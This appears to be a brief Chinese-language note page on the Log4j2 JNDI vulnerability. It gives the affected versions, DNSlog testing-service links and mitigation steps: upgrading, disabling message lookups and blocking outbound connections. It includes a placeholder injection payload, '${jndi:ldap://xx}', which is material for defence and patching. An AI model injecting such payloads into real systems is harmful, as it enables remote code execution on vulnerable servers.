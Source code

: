 https://ip.tool.chinaz.com/

http://admin.dnslog.link/

https://github.com/bugscanteam/dnslog/
https://www.freesion.com/article/67671308826/
http://www.dnslog.cn/
https://www.cnblogs.com/sunny11/p/14399420.html

${jndi:ldap://xx}

影响的版本范围：Apache Log4j 2.x <= 2.14.1
https://www.cnblogs.com/personblog/p/14510355.html

 log4j2 快速修复措施
修改log4j2版本
据 Apache 官方最新信息显示，release 页面上已经更新了 Log4j 2.15.0 版本，主要是那个log4j-core包，漏洞就是在这个包里产生的，如果你的程序有用到，尽快紧急升级。
临时解决方案
设置jvm参数 “-Dlog4j2.formatMsgNoLookups=true”
设置“log4j2.formatMsgNoLookups=True”
系统环境变量“FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS”设置为“true”
关闭对应应用的网络外连，禁止主动外连
https://blog.csdn.net/lumingzhu111/article/details/121871114
